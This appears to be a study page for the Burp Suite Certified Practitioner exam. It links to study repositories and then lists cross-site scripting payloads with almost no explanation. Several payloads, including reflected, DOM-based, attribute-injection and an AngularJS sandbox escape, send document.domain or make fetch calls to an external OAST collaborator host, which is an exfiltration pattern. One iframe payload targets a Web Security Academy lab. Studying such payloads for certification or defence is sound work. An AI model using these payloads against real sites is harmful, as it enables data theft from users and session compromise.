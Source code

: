 ___
[https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study)

[https://github.com/DingyShark/BurpSuiteCertifiedPractitioner](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner)

[https://deephacking.tech/burp-suite-certified-practicioner-review-bscp/](https://deephacking.tech/burp-suite-certified-practicioner-review-bscp/)


```html
<script>location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;</script>
```


DOM Based XSS
```html
#"><img src="x" onerror="location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;">
```


```js
javascript:alert(1)
```

```html
<iframe src="https://0a190064039da4c7853828e6009e004c.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

`
```js
"onfocus="alert(1)
```

```js
"onmouseover="location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;
```

```js
';alert(1)//
```


# Practitioner


```html
"></select><img src=1 onerror=document.location='http://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun/?c='+document.domain;">
```

```js
{{constructor.constructor('fetch("https://tqppomndoggvfeiefwpdh4jb599h3e07m.oast.fun")')()}}
```


